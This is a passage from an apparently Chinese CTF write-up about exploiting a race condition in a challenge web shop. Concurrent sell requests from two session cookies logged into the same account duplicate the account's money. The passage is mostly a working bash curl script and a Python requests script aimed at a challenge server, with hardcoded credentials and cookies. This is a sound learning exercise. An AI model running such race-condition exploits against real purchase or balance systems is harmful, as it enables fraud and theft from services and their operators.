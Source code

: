 #### 竞争

看了别人的WP，发现确实是可以竞争的。不过，这个竞争和我们考虑的不一样，我们以为是用多个马甲号的COOKIE去喂一个马甲的钱。他的意思是，通过一个账户的不同cookie去操作。先用一个cookie买一个数据，然后再通过不同的cookie卖。好神奇，好奇后台逻辑是怎么写的。

> 难道是，在改变账户钱的时候，会去登陆认证账户和密码。而在实际买的时候，它只对cookie做了认证。这个cookie不标志用户，只标志一个持续的会话
>
> 这种形式的竞争，也能解释一开始比赛的时候，为什么会有那么多人突然钱多起来了。。

sh参考代码:

```sh
#!/bin/bash
username="moxiaoxi"
password="moxiaoxi"
cookie1="PHPSESSID=gseqg01fg54is7nh733lch3eu1"
cookie2="PHPSESSID=r18k5gc0mvu94urgd04k8hgbl7"
url="http://202.120.7.197/app.php"

curl "$url?action=login" -b $cookie1 -d "username=$username&pwd=$password" &\
curl "$url?action=login" -b $cookie2 -d "username=$username&pwd=$password"

curl "$url?action=buy&id=1" -b $cookie1

curl "$url?action=sale&id=1" -b $cookie1 &\
curl "$url?action=sale&id=1" -b $cookie2

```
很疑惑，这里竟然能百分百触发，然后搞不懂为啥本来的脚本没办法触发，就改写了一下脚本，进行测试。 

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
import requests

username = "moxiaoxi"
password = "moxiaoxi"

cookie1 = {"PHPSESSID":"gseqg01fg54is7nh733lch3eu1"}#PHPSESSID随意
cookie2 = {"PHPSESSID":"r18k5gc0mvu94urgd04k8hgbl7"}

url1 = "http://202.120.7.197/app.php"

paramsLogin ={"action":"login"}
data = {"username":username,"pwd":password}
paramsBuy = {"action":"buy","id":"1"}
paramsSale = {"action":"sale","id":"1"}

res = requests.post(url = url1,params = paramsLogin,data = data,cookies = cookie1)
print res.text
res = requests.post(url = url1,params = paramsLogin,data = data,cookies = cookie2)
print res.text

res = requests.get(url1,params = paramsBuy,cookies = cookie1)
print res.text
res = requests.get(url1,params = paramsSale,cookies = cookie2)
print res.text
res = requests.get(url1,params = paramsSale,cookies = cookie1 )
print res.text
```
